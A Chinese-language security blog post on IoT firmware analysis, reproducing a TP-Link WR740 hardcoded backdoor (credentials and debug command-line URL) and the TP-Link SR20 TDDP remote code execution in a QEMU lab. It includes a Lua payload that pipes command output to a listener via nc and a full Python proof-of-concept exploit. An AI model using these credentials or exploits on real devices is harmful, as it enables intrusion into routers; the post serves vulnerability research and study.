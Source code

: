 # IOT Security Research

A simple blog for IOT Security Research.
<!--more-->

## 前置知识
### 固件的获取
#### 直接从厂商官网或官方服务器下载
![](imgs/image-20241016135150887.png)

![](imgs/image-20241016135255333.png)


#### 使用BP或者UART串口进入设备的shell抓包获取下载地址
![](imgs/image-20241016135215581.png)

![](imgs/image-20241016135218312.png)


#### 使用固件烧写器或者编程器提取ROM中的固件

### 固件的处理
#### 解包
常用工具：binwalk、firmware-mod-kit、binaryanalysis-ng

#### 解密
1. 使用老版本未加密固件中的解密程序实现新版本加密固件的解密

2. 逆向分析低版本固件的解密逻辑实现对新版本固件的解密

## 漏洞复现
### TP-Link WR740 后门漏洞
首先获取固件，固件下载地址：https://github.com/dioos886/TP-LinkWR740

使用binwalk扫一下，可以直接看到Squashfs文件系统，使用-Me参数进行提取

![](imgs/image-20241016140120199.png)

> Tips：如果这里无法提取出文件系统，可能是没有正确安装sasquatch，直接根据Github中的步骤安装即可
> 
> sasquatch下载地址：https://github.com/devttys0/sasquatch.git

解包完成后，可以使用 firmwalker 进行敏感信息扫描

> firmwalker下载地址：https://github.com/craigz28/firmwalker.git
> 
> 使用方法：./firmwalker.sh squashfs-root的路径


![](imgs/image-20241016181231412.png)

多次出现httpd的字样，因此猜测是httpd起的服务

接下来逆向分析一下/usr/bin/httpd这个文件

通过搜索passwd跟踪到以下DebugResultRpmHtm这个函数，可以得到 用户名：osteam 密码：5up
![](imgs/image-20241016181821704.png)

再往上可以找到另外两个函数ArtRpmHtm和CmdRpmHtm
![](imgs/image-20241016182046585.png)

然后我们对固件进行模拟，我这里使用的是AttifyOS3.0中的 firmware-analysis-toolkit

![](imgs/image-20241017201034207.png)

模拟成功后我们直接访问 192.168.1.1 即可

![](imgs/image-20241017201209947.png)

使用默认密码 admin admin 登录

![](imgs/image-20241017201238654.png)

登录成功后直接访问 192.168.1.1/userRpmNatDebugRpm26525557/linux_cmdline.html

然后输入我们之前逆向得到的用户名密码：osteam 5up 即可实现 RCE

![](imgs/image-20241017201524213.png)

### TP-Link SR20 本地网络远程代码执行漏洞

固件下载链接：https://www.tp-link.com/us/support/download/sr20/#Firmware

选择 `SR20(US)_V1_180518` 下载，然后解压，直接使用 binwalk 提取固件即可

搭建 arm qemu 虚拟机环境

搭建环境前需要先获取以下三个文件，并置于统一目录中，下载链接：https://people.debian.org/~aurel32/qemu/armhf/

```bash
debian_wheezy_armhf_standard.qcow2 # qemu虚拟机的硬盘镜像文件，包含完整的 Debian Wheezy 操作系统（ARM 架构）
initrd.img-3.2.0-4-vexpress # 初始 RAM 文件系统镜像，用于在内核加载时提供临时文件系统和驱动
vmlinuz-3.2.0-4-vexpress # 压缩的 Linux 内核镜像文件，控制系统硬件和资源管理
```

```bash
sudo tunctl -t tap0 -u `whoami`  
# 为了与 QEMU 虚拟机通信，添加一个虚拟网卡，如果显示已经分配给一个用户，要先用以下命令启用
# sudo ip link set tap0 up

# 为添加的虚拟网卡配置 IP 地址
sudo ifconfig tap0 10.10.10.1/24 
# 根据配置启动虚拟机
qemu-system-arm \
    -M vexpress-a9 \                             # 使用 ARM 虚拟平台 vexpress-a9
    -kernel vmlinuz-3.2.0-4-vexpress \           # 指定内核镜像文件
    -initrd initrd.img-3.2.0-4-vexpress \        # 指定 initrd 初始 RAM 文件系统
    -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \  # 将 debian 磁盘镜像作为 SD 卡
    -append "root=/dev/mmcblk0p2 console=ttyAMA0" \ # 内核启动参数：设置根分区及控制台
    -net nic \                                   # 启用虚拟网络接口
    -net tap,ifname=tap0,script=no,downscript=no \ # 使用 tap0 进行网络桥接
    -nographic                                    # 不启动图形界面，重定向到终端
```

虚拟机成功运行后，使用 root root 默认密码登录系统，然后使用以下命令配置网卡，建立与宿主机的通讯
```bash
ifconfig eth0 10.10.10.2/24
```

![](../Misc-工控安全/imgs/image-20241025160447046.png)

建立好通讯后，用以下命令把固件中的文件系统传入虚拟机中并解压
```
tar -cjpf squashfs-root.tar.bz2 squashfs-root/
python -m http.server
wget http://10.10.10.1:8000/squashfs-root.tar.bz2
tar -xjpf squashfs-root.tar.bz2
```

然后需要在宿主机中安装TFTP服务
```bash
sudo apt install atftpd
```

编辑 `/etc/default/atftpd` 文件，`USE_INETD=true` 改为 `USE_INETD=false`

修改 `/srv/tftp` 为 `/tftpboot`

修改完成后用以下命令启动并查看aftpd服务
```bash
sudo systemctl start atftp
sudo systemctl status atftp
# 如果出现 atftpd: can't bind port :69/udp 报错
# 需要先用以下命令停用 inetutils-inetd 服务，然后再restart
sudo systemctl stop inetutils-inetd.service
```

下图是启动成功的界面
![](../Misc-工控安全/imgs/image-20241025162544581.png)

之后是漏洞复现的步骤
现在宿主机的`/tftpboot` 目录下创建下面两个文件

文件一：payload
```bash
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```
文件二：poc.py
```python
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

然后虚拟机运行tddp，宿主机开启监听并运行poc.py即可成功复现

![](../Misc-工控安全/imgs/image-20241025173411193.png)

![](../Misc-工控安全/imgs/image-20241025173312434.png)


但是我这里虚拟机中tddp的动态链接库有点问题，暂时卡在这里了

![](../Misc-工控安全/imgs/image-20241025172358445.png)

参考链接：https://paper.seebug.org/879/

---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/848cf69/  

